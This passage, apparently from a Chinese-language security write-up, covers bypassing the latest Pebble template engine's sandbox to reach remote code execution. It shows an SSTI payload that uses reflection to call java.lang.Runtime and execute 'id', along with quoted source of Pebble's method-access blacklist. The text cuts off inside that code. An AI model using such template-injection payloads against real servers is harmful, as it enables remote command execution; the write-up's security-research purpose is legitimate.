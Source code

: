 之后就是如何实现模板注入实现RCE了

### 利用现有环境Bypass最新版Pebble模板引擎限制

网上随便抄了一个看起来最新的

```
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```

结果命令行大大的问号？然后想到了这是最新版修复了之前的问题

![](img/8.png)

根据报错内容的显示，接下来我们看看具体做的哪些限制，可以看到够恶心的不能是下面这么多类的实例？？？并且能调用FORBIDDEN_METHODS 当中的方法，特别是判断是否为Class实例将我们反射的路给断掉了(在这个模板语法当中只能通过xx.class.forName去获取其他对象)
，剩下代码也很简单就不带着读了

```java
public class BlacklistMethodAccessValidator implements MethodAccessValidator {
    private static final String[] FORBIDDEN_METHODS = new String[]{"getClass", "wait", "notify", "notifyAll"};

    public BlacklistMethodAccessValidator() {
    }

    public boolean isMethodAccessAllowed(Object object, Method method) {
        boolean methodForbidden = object instanceof Class || object instanceof Runtime || object instanceof Thread || object instanceof ThreadGroup || object instanceof System || object instanceof AccessibleObject || this.isUnsafeMethod(method);
        return !methodForbidden;
    }

    private boolean isUnsafeMethod(Method member) {
        return this.isAnyOfMethods(member, FORBIDDEN_METHODS);
    }

    private boolean isAnyOfMethods(Method member, String... methods) {
        String[] var3 = methods;
        int var4 = methods.length;

```